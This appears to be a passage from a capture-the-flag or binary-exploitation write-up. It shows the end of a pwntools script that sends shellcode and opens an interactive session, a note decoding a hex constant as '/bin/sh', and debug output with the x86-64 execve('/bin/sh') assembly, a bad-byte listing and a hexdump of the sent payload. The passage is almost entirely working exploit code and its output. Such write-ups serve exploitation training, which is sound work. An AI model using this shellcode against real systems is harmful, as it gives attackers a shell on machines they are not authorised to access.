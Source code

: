 ```python
        print(f'BAD BYTE --> 0x{byte:02x}')
        print(f'ASCII --> {chr(byte)}')

sl(shellcode)
p.interactive()

```

- Note:

```
0x68732f6e69622f is a hex representation of strings "/bin/sh".

>>> from pwn import *
>>> print(p64(0x68732f6e69622f))
b'/bin/sh\\x00'
>>>
```

When we run our exploit we got this:

```bash
      <...>
        mov rax, 0x68732f6e69622f
        push rax
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x3b
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-kigxn6hl/step2 /tmp/pwn-asm-kigxn6hl/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-kigxn6hl/step3 /tmp/pwn-asm-kigxn6hl/step4
BAD BYTE --> 0x62
ASCII --> b
BAD BYTE --> 0x69
ASCII --> i
BAD BYTE --> 0x6e
ASCII --> n
BAD BYTE --> 0x73
ASCII --> s
BAD BYTE --> 0x68
ASCII --> h
BAD BYTE --> 0xf6
ASCII --> ö
BAD BYTE --> 0xd2
ASCII --> Ò
BAD BYTE --> 0xc0
ASCII --> À
BAD BYTE --> 0x3b
ASCII --> ;
[DEBUG] Sent 0x1e bytes:
    00000000  48 b8 2f 62  69 6e 2f 73  68 00 50 48  89 e7 48 31  │H·/b│in/s│h·PH│··H1│
    00000010  f6 48 31 d2  48 c7 c0 3b  00 00 00 0f  05 0a        │·H1·│H··;│····│··│
    0000001e
<...>
```
